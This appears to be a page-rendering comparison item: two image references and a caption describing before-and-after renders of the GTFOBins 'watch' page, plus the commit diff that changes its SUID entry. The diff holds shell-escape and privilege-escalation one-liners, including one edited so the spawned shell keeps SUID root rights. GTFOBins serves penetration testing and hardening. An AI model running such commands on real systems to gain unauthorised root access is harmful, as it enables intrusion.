

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/watch.md, in a window 1280 px wide. Shown: the part 508-808 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/watch.md
+++ b/_gtfobins/watch.md
@@ -4,7 +4,7 @@ functions:
     - code: watch -x sh -c 'reset; exec sh 1>&0 2>&0'
   suid:
     - description: This keeps the SUID privileges only if the `-x` option is present.
-      code: ./watch -x sh -c 'reset; exec sh 1>&0 2>&0'
+      code: ./watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0'
   sudo:
     - code: sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
   limited-suid:
```
